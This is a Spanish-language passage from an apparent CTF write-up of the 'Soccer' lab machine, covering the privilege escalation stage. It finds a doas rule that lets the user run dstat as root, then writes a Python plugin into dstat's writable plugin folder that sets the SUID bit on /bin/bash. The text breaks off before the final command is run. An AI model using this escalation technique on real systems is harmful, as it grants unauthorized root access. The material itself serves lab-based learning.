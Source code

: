 ```bash
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
/snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1695/usr/lib/openssh/ssh-keysign
player@soccer:~$ 
```

Y encontramos la ruta del archivo binario *doas* ***/usr/local/bin/doas*** en esa misma ruta en ***/usr/local/etc/*** encontramos ***doas.conf***, pero no tenemos permisos
```bash
player@soccer:/usr/local/bin$ ls -la
-rwsr-xr-x  1 root root 42224 Nov 17 09:09 doas
-rwxr-xr-x  1 root root  2002 Nov 17 09:09 doasedit
-rwxr-xr-x  1 root root  5471 Nov 17 09:09 vidoas
```
```bash
player@soccer:/usr/local/etc$ cat doas.conf 
permit nopass player as root cmd /usr/bin/dstat
```
```bash
player@soccer:/usr/local/etc$ ls -la
-rw-r--r--  1 root root   48 Nov 17 09:10 doas.conf
```
Aqui nos dice que podemos ejecutar ***dstat*** como ***root*** sin proporcionar contraseña.
Procedemos a la ejecucion.
```bash
player@soccer:/usr/local/etc$ doas -u root /usr/bin/dstat
You did not select any stats, using -cdngy by default.
--total-cpu-usage-- -dsk/total- -net/total- ---paging-- ---system--
usr sys idl wai stl| read  writ| recv  send|  in   out | int   csw 
  1   1  99   0   0|  55k   19k|   0     0 |   0     0 | 272   566 
  0   0  99   0   0|   0     0 | 242B  790B|   0     0 | 277   485 
  1   0  99   0   0|   0     0 |  66B  342B|   0     0 | 261   482
```
```bash
player@soccer:/usr/local/etc$ ls -la /usr/local/share/dstat/
total 8
drwxrwx--- 2 root player 4096 Dec 12 14:53 .
drwxr-xr-x 6 root root   4096 Nov 17 09:16 ..
```
Miramos la ruta ***/usr/local/share/dstat y tenemos capacidad de escritura, el propietario es *root* pero *player* pertenece al grupo y tiene la capacidad de ejecutar, leer y escribir.

Asi que simplemente nos hacemos un script en *python* que otorgue privilegio *SUID* a */bin/bash* y acceder como ***root***
```bash
player@soccer:/usr/local/share/dstat$ echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py
```
Ejecutamos doas con privilegios de ***root***
